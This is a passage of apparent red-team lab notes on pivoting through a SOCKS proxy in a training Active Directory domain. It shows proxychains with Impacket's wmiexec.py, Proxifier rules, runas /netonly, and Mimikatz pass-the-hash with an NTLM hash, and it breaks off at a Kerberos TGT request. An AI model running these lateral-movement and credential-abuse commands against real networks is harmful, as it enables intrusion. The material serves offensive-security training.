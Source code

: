 Or from WSL on Windows:

    ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30

ICMP and SYN scans cannot be tunnelled, so disable ping discovery (-Pn) and specify TCP scans (-sT) in nmap.

## Windows Tools

Can also tunnel traffic from Windows using [Proxifier](https://www.proxifier.com). To create a new proxy entry:

1: Profile > Proxy Servers. Click Add and enter the relevant details.

2: When asked to use this proxy by default, select No. 

3: When prompted to go to the Proxification Rules, select Yes. Enter which applications to proxy and under what conditions.

4: Click Add to create a new rule and use the following:

    Name:          Tools
    Applications:  Any
    Target hosts:  10.10.120.0/24;10.10.122.0/23
    Target ports:  Any
    Action:        Proxy SOCKS5 10.10.5.50

5: To enable authentication to occur over the proxy, an application needs to be launched as a user from the target domain; use ```runas /netonly``` or Mimikatz.

E.g.: AD Users and Computers (ADUC); the file responsible for launching ADUC is dsa.msc, which is a snap-in for mmc.exe. Open a Command Prompt as a local admin, then launch mmc.exe via runas.

    PS C:\Users\Attacker> runas /netonly /user:DEV\bfarmer mmc.exe

Go to File > Add/Remove Snap-in, add the ADUC snap-in, then click OK. Right-click on the snap-in, select Change Domain, enter dev.cyberbotic.io and click OK. Proxifier begins to capture and relay traffic and ADUC loads the content.

Or with Mimikatz:

    mimikatz # privilege::debug
    mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe

PowerShell cmdlets that support credential objects can also be used.

    PS C:\Users\Attacker> $cred = Get-Credential
    PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select DNSHostName

## Pivoting with Kerberos

The above examples used both plaintext credentials (with Impacket & runas /netonly) and NTLM (with Mimikatz) to authenticate to resources over the SOCKS proxy. It is also possible to use Kerberos tickets by using Impacket through proxychains.

1: Use getTGT.py to request a TGT for jking with their AES256 hash:
